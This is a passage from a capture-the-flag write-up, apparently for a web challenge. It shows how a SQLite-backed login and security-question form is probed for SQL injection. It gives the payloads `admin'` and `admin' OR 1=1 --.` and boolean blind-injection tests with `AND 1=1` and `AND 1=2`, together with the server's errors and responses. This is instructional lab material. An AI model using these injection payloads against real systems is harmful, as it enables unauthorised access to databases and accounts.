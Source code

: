 Looking at this query, we then try to see if an SQL injection actually exists by using `admin'` as the username.
```
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "'admin''" in /problems/philips-and-over_20_d1b6a0ae1a20d6684ef08d4e630276cc/webroot/result.php on line 65

username: admin'
answer: asd
SQL query: SELECT password, answer FROM users WHERE username='admin''


Fatal error: Uncaught Error: Call to a member function fetchArray() on boolean in /problems/philips-and-over_20_d1b6a0ae1a20d6684ef08d4e630276cc/webroot/result.php:74 Stack trace: #0 {main} thrown in /problems/philips-and-over_20_d1b6a0ae1a20d6684ef08d4e630276cc/webroot/result.php on line 74
```

Okay so we now know that the username field is indeed SQL injectable. However, we will also notice that a simple `admin' OR 1=1 -- .` won't work.
```
username: admin' OR 1=1 --.
answer: asd
SQL query: SELECT password, answer FROM users WHERE username='admin' OR 1=1 --.'

Your answer to the security question is not correct. We have sent admin' OR 1=1 --. an email to notify this incident.
```

This happens because the page doesn't actually return the output of the query itself. Rather it will either return TRUE or FALSE depending on the query. This can be verified using a boolean AND injection as follows.
```
# A TRUE query #

username: admin' AND 1=1 --.
answer: asd
SQL query: SELECT password, answer FROM users WHERE username='admin' AND 1=1 --.'

Your answer to the security question is not correct. We have sent admin' AND 1=1 --. an email to notify this incident.

----------------------------------------------------------------------------------------------------------------------

# A FALSE query

username: admin' AND 1=2 --.
answer: asd
SQL query: SELECT password, answer FROM users WHERE username='admin' AND 1=2 --.'

User does not exist.
```

As we can see, when we try `admin' AND 1=1 --.`, the query still returns TRUE, since the left side is true (admin is a valid user) and the right side is true (1=1). However, when we try `admin' AND 1=2 --.`, the query returns FALSE because even though admin is still a valid user, 1 != 2 therefore the entire query is false.
